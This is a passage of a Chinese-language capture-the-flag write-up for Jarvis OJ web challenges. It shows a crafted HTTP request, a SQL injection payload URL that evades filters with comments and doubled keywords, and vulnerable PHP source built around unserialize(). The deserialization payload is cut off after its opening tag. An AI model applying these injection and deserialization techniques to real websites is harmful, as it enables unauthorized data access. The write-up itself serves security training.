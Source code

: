```
POST /index.php?id=a&a=php://input&b=%00233333 HTTP/1.1
Host: web.jarvisoj.com:32780
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=uj107nfovv3on10uca868uam15
X-Forwarded-For: 10.16.13.91
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

1112 is a nice lab!
```

得到一个注入
测试发现过滤了空格 用``/*aaa*/``绕过
然后发现要吃掉语句使用双写语句绕过
最终payload
```
http://web.jarvisoj.com:32780/%5eHT2mCpcvOLf/index.php?id=1/*aaaa*/and/*111*/1=2/*aaa*/uniunionon/*bbbb*/selselectect/*aaabb*/1,2,context/*vvvv*/frfromom/*aaabbbb*/content
```
--------
0x09 神盾局的秘密 300
--
base64 可以读到源码
index.php
```
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
<img src="showimg.php?img=c2hpZWxkLmpwZw==" width="100%"/>
```
shield.php
```
<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>
```
可以发现在index中$x = unserialize($g);
说明这是一个反序列读pctf.php文件的题
于是构造payload
```
<?php
```

  [1]: http://www.tuicool.com/articles/zEfuEz
  [2]: https://img.scanfsec.com/img/2016122082157378.png
  [3]: https://img.scanfsec.com/img/2016123993631644.png
  [4]: https://img.scanfsec.com/img/2016123187191897.png
  [5]: https://img.scanfsec.com/img/2016123272738253.png
  [6]: https://img.scanfsec.com/img/2016122761767173.png
  [7]: https://img.scanfsec.com/img/2016121231310862.png
  [8]: https://img.scanfsec.com/img/201612887644193.png
  [9]: https://img.scanfsec.com/img/201612259069001.png
  [10]: https://img.scanfsec.com/img/2016122467216741.png